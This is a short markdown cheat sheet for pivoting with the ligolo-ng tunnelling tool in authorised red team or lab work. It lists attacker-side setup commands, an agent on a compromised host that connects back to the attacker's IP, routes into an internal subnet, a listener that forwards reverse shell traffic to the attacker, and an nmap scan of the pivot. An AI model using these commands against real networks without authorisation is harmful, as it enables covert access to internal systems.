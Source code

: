 # 🛡️ ligolo-ng Cheat Sheet

External Interface: `10.1.1.10/24`  
Internal Interface: `10.1.2.4/24`

##🖥️ On Kali (Attacker Machine)
1. Create and enable the TUN interface
```bash
ip tuntap add user root mode tun ligolo
ip link set ligolo up
ip addr show ligolo
```
2. Start the ligolo proxy
```bash
ligolo-proxy -selfcert
# Use -autocert during real red team engagements
```
##🧩 On Target Machine
3. Run the agent to connect to the attacker
```bash
./agent -connect <kali_ip>:11601 -ignore-cert
# If -autocert was used on the proxy, -ignore-cert is not required
```
##🔗 On Kali (in ligolo-ng session)
4. Interact with session
```bash
ligolo-ng » session
```
5. Add a route to the internal network
```bash
ip route add 10.1.2.0/24 dev ligolo
```
6. Start the tunnel
```bash
start
```
✅ Tunnel to the internal network is now established.
##🔄 Reverse Shell from Internal to Attacker (Port Redirection)
7. Setup a listener inside the ligolo-ng session
```bash
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp

# 0.0.0.0:30000 → Listens on the target machine
# 127.0.0.1:10000 → Redirects traffic to attacker machine

💡 While generating a reverse shell payload:
# Use target machine’s IP and port 30000 (or any random port)
# Traffic will be forwarded to attacker's port 10000 (or any random port)
```
##📡 Access Pivot Machine’s Ports (Direct Scanning)
8. Add a specific route to access the pivot machine itself
```bash
ip route add 240.0.0.1/32 dev ligolo
# 240.0.0.1 is a special IP address used by ligolo-ng to represent the pivot machine itself (the host where the agent is running).
```
9. Scan the pivot machine using Nmap
```bash
nmap 240.0.0.1
```
🔍 This will reveal open ports on the pivot machine, accessible via the ligolo tunnel.
